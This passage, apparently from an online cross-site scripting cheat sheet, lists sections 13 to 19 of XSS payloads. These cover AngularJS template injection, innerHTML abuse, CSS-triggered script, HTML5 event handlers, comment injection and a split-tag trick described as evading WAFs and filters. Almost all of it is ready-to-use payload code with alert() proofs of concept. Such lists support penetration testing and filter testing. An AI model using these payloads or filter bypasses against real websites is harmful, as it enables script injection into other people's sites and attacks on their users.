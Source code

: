 ```javascript
{"name":"<script>alert('XSS')</script>"}
<username><![CDATA[<script>alert('XSS')</script>]]></username>
```

### **13. AngularJS Template Injection**
Leverage AngularJS templating system.

```html
{{constructor.constructor('alert(1)')()}}
{{'a'.constructor.prototype.charAt=[].join;$eval('alert(1)')}}
```

### **14. Exploiting InnerHTML Vulnerabilities**
Common with dynamic JavaScript rendering using `.innerHTML`.

```html
<script>document.body.innerHTML='<img src=x onerror=alert(1)>';</script>
<div id="div1" onclick="document.getElementById('div1').innerHTML='<img src=x onerror=alert(1)>'">Click me</div>
```

### **15. XSS Payloads Exploiting CSS**
Using CSS injection to trigger JavaScript.

```html
<style>@keyframes x{}</style><div style="animation-name:x" onanimationstart="alert(1)"></div>
<style>body{background:url('javascript:alert(1)')}</style>
```

### **16. Event Handler Abusing HTML5 Elements**
New event handlers introduced with HTML5.

```html
<input onblur="alert('XSS')" autofocus>
<body ononline="alert('XSS')">
<select onchange="alert('XSS')"><option>1</option><option>2</option></select>
```

### **17. HTML Comment Injection**
Attempting XSS via HTML comment manipulation.

```html
<!--<script>alert(1)</script> -->
<!-- Comment trick --><script>alert(1)</script>
```

### **18. Multipart Payloads and Bypasses**
Payloads spread across multiple elements to evade WAFs and filters.

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

### **19. Flash and VML Payloads**
Exploiting legacy technologies.
